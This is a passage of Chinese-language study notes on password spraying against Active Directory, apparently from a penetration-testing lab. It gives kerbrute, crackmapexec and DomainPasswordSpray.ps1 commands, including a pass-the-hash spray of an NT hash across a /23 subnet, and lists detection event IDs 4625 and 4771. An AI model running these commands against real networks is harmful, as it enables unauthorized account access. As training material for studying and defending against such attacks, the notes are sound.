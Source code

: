 ## 密碼噴灑
### Linux
- kerbrute
    :::info
    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
    :::
    ![image](https://hackmd.io/_uploads/H1YiYexrJx.png)

- crackmapexec
    :::info
    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
    :::
    ![image](https://hackmd.io/_uploads/SJk19egHkx.png)

    如果從本機 SAM 資料庫找到本機管理員帳戶的 NTLM 雜湊，就可以在整個子網路（或多個子網路）上噴射 NT 哈希，以尋找具有相同密碼集的本機管理員帳戶。在下面的範例中，我們嘗試使用從另一台電腦檢索的內建本機管理員帳戶 NT 雜湊對 /23 網路中的所有主機進行驗證。該--local-auth標誌將告訴工具僅在每台電腦上嘗試登入一次

    > SAM 資料庫（Security Accounts Manager 資料庫）包含了本機使用者帳戶的資料，包括用戶名、密碼雜湊以及其他安全性資訊。然而，由於 SAM 資料庫包含敏感資料，它是受到保護的，只有具有管理員權限的使用者或特定系統服務才能訪問它。

    :::info
    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
    :::
    ![image](https://hackmd.io/_uploads/HJ5oixgByx.png)

### Windows
- DomainPasswordSpray.ps1
    如果我們通過網域身份驗證，該工具將自動從 Active Directory 產生使用者列表，查詢網域密碼原則，並在一次鎖定嘗試中排除使用者帳戶
    
    以下範例由於主機已加入網域，因此我們跳過該 -UserList 標誌並讓該工具為我們產生一個清單。我們將提供該 Password 標誌和一個密碼，然後使用該 -OutFile 標誌將輸出寫入檔案以供以後使用   
    :::info
    - Import-Module .\DomainPasswordSpray.ps1
    - Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
    :::
    ![image](https://hackmd.io/_uploads/r1f3pxxHJx.png)

### detect
- Domain Controller 的安全性日誌中，事件 ID 4625：帳戶在短時間內無法登入的許多執行個體可能表示存在密碼噴射攻擊
- 事件 ID 4771: Kerberos pre-authentication failed，這可能表示 LDAP 密碼噴射嘗試

## 列舉更多內容

有使用者憑證才能比較好的列舉想要的東西

- 值得注意的 ACE
